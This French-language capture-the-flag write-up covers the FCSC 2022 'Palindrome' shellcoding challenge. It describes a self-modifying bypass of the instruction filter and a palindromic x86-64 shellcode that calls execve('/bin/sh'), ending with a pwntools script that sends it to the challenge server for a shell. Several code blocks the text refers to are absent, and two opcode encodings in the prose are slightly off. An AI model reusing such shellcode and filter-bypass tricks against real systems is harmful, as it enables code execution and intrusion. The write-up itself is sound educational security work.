




### **Palindrome,**

était un challenge de shellcoding du FCSC 2022.

L'idée du challenge étant de faire un shellcode pouvant se lire dans les deux sens (comme un palindrome donc..)

et devant néanmoins s'exécuter correctement..


Pour corser quelque peu l'exercice,  les instructions de sauts diverses, ainsi que les appels d'interruption étaient filtrés

par une analyse des instructions avec la librairie capstone avant l'exécution du shellcode.


L'idée était plutôt sympathique, mais comme toujours, le diable se cache dans les détails...

Le challenge étant mal réalisé, il était très facile de le résoudre en abusant du fait que la zone mémoire dans laquelle était exécuté le shellcode (la pile en l'occurence) était mappée en lecture , écriture, et exécution (RWX).

Cela permettait donc d'écrire un code auto-modifiable, et de passer outre les différents filtres..

Il aurait fallu mapper la zone mémoire dans laquelle est copié le shellcode en mode lecture et exécution seule,

pour forcer les joueurs à passer par un shellcode qui est vraiment un palindrome..


Donc je vais proposer deux façons de le résoudre:

- Une en abusant de cette faiblesse du challenge,

- Et une en suivant la voie attendue.

  

Deux mots sur les différents paramètres du challenges avant de commencer..

le shellcode sera exécuté en remote via ce script python:



Pour résumer , le shellcode est transmis en hexadecimal, sa longueur ne doit pas excéder 1024 octets,

la fonction `check(SC)` vérifie pour chaque instruction, qu'elle ne fasse pas partie des groupes interdits,

qui sont grosso modo , toutes les instructions de sauts, `call`, `jmp`, `ret`, ainsi que les instructions d'interruptions `syscall` et `int`.

à la fin de check, la ligne `(SC == SC[::-1])` vérifie elle, que le shellcode est identique dans les deux sens, un palindrome donc..

Si toutes ces conditions sont passées, un prologue et un épilogue d'instructions sont ajoutés au shellcode.

le prologue se présente comme ceci:



on peut voir que le prologue mets tous les registres à zéro excepté `rsp` , la pile reste donc utilisable.

l'épilogue lui est seulement composé des bytes `0x0f`, `0x05`, ce qui correspond à l'instruction `syscall`

Le shellcode final, composé du prologue + votre shellcode + l'épilogue sera exécuté via un binaire qui le copie sur sa pile exécutable, et l'éxécute..

voilà pour le setup initial..


#### **Voie de la "main gauche" (ou Dyonisiaque)**

Bon, en CTF on va au plus efficace, le plus rapide...

un maximum d'efficacité en un minimum d'effort...

donc après une bonne minute de réflexion,

utiliser un code auto-modifiable afin de passer outre le filtrage des instructions me semble être la solution la plus rapide,

cela nécessite 4 lignes d'instructions donc..



profitant du fait que tous les registres sont déjà à zéro,

on va faire un `execve('/bin/sh',0,0)`

cela nécessite seulement de mettre `eax` à 59 (la valeur du syscall `execve` en mode 64bit),

est que `rdi` pointe sur la chaine de caractère `"/bin/sh"`

Ensuite on utilise la valeur de `al`  (59), pour xorer le byte suivant à `0xd0`, pour le transformer en `0xeb`,

soit l'opcode x86 d'un jump relatif de 8bit (`jmp rel8`), 30 étant la distance qui nous séparre du `syscall` final.

Cela nous permet de contourner le filtre sur les instructions de sauts, "*finger in ze nose*" comme on dit...

On colle le shellcode à l'envers à la fin de notre shellcode, de toutes façons il ne sera pas exécuté puisque le jump passera par dessus..

ainsi nous remplissons bien toutes les conditions vérifiées par le script python..

et donc nous avons notre `execve`, et puis voilà....

merci bien, à la prochaine donc...




#### **Voie de la "main droite" (ou Apollinienne)**

Nous allons donc créer une structure harmonieuse, un palindrome qui pourra donc s'exécuter dans les deux sens au cas où le sens du temps s'inverserai par exemple (on sait jamais...)

Le but auquel nous devons parvenir est le même que dans le shellcode précédent:

on doit mettre `eax` à 59 et `rdi` doit pointer sur une chaine `'/bin/sh'`, et le code doit s'exécuter correctement jusqu'au `syscall` final, plus question de tricher en passant par dessus le code inversé...

Il y a de multiples façons d'arriver à ce but, la première qui m'est venu à l'esprit est d'abuser des instructions longues en mode 64bit.

voici donc la technique que j'ai utilisé pour obtenir ce palindrome:

prenez une instruction longue telle que:

`mov rcx,0x0102030405060708`

qui est codé de cette façon:

`48 b9 08 07 06 05 04 03 02 01`

soit un total de 10 octets , `0x48` `0xB9` et les 8 octets de la valeur 64bits en little endian donc..

prenez une instruction plus courte à présent:

`mov cx,0x48b9`

qui est codé de cette façon:

`66 b9 b9 48`

soit un total de 4 octets, soit une différence de 6 octets...

l'idée est de mettre un maximum de 6 octets d'instructions avant le `mov cx,0x48b9`

et de reproduire les opcodes de ces instructions, dans la valeur suivante de `mov rcx,`

par exemple cette séquence d'instruction:

```assembly
push rax
push rbx
push rsp
pop rdi
mov al,59
mov cx,0x48b9
```

est encodée ainsi:

`50 53 54 5f b0 3b 66 b9 b9 48`

soit exactement 10 octets.

maintenant si nous ajoutons l'instruction `mov rcx,0x5053545fb03b66b9` à la suite de cette séquence, dans la valeur de `rcx` nous avons inclus les valeurs des 6 opcodes précédents le `mov cx, 0x48b9`.

nous obtenons:

`50 53 54 5f b0 3b 66 b9 b9 48  | 48 b9 b9 66 3b b0 5f 54 53 50` 

on peut voir que les 10 octets de gauche et de droite sont le reflet inversé l'un de l'autre.. et nous obtenons donc bien un palindrome, qui peut être exécuté dans les deux sens..

la valeur de `rcx`, ne nous gêne pas pour l'`execve` et sera ignorée, et nous pouvons exécuter des instructions avant le `mov cx,0x48b9`,  qui doivent être encodées dans les 6 opcodes disponibles.

pour rajouter des blocs de 6 opcodes,  en établissant le symbole '`|`' comme centre de gravité de notre palindrome,

nous pouvons rajouter un autre blocs de 6 opcodes suivi d'un `mov cx, 0x48b9` au début à gauche, et son reflet inversé à la fin à droite.. et nous aurons toujours un palindrome.

Nous pouvons repéter ce processus autant de fois que nécessaire, jusqu'a ce que tout les registres soient initialisés..

pour que rdi pointe sur la chaine "`/bin/sh`" qui fait 8 octets (et donc ne rentre pas dans les 6 opcodes disponibles),

nous allons recréer la chaine "`/bin/sh`" dans le registre `rbx`, via cette séquence d'instruction repétée 8 fois.. (7 en fait , le zéro est déjà dans rbx)

```assembly
mov bl,val
shl rbx,8
```

qui est encodé en 6 opcodes:

`b1 <val> 48 c1 e1 08`

ensuite le registre `rbx` sera sauvegardé sur la pile, et nous copierons la valeur de `rsp`, vers `rdi` pour qu'il pointe sur '`/bin/sh`',

comme dans la première séquence d'instructions:

voilà donc l'exploit avec le  shellcode palindrome final:

```python
from pwn import *
import binascii

context.update(arch="amd64", os="linux")

shellc = asm('''
  mov bl,0x68
  shl rbx,8
  mov cx,0x48b9

  mov bl,0x73
  shl rbx,8
  mov cx,0x48b9

  mov bl,0x2f
  shl rbx,8
  mov cx,0x48b9

  mov bl,0x6e
  shl rbx,8
  mov cx,0x48b9

  mov bl,0x69
  shl rbx,8
  mov cx,0x48b9

  mov bl,0x62
  shl rbx,8
  mov cx,0x48b9

  mov bl,0x2f
  nop
  nop
  nop
  nop
  mov cx,0x48b9

  push rax
  push rbx
  push rsp
  pop rdi
  mov al,59
  mov cx,0x48b9
  
  mov rcx,0x5053545fb03b66b9
  mov rcx,0xb32f9090909066b9
  mov rcx,0xb36248c1e30866b9
  mov rcx,0xb36948c1e30866b9
  mov rcx,0xb36e48c1e30866b9
  mov rcx,0xb32f48c1e30866b9
  mov rcx,0xb37348c1e30866b9
  mov rcx,0xb36848c1e30866b9
''')

print('shellcode length: '+str(len(shellc)))
print(hexdump(shellc))

p = remote('challenges.france-cybersecurity-challenge.fr', '2054')
# send the shellcode encoded to hexadecimal
p.sendlineafter('):\n', binascii.hexlify(shellc)  )

p.interactive()

```

voilà donc pour le palindrome..

et puis c'est tout..

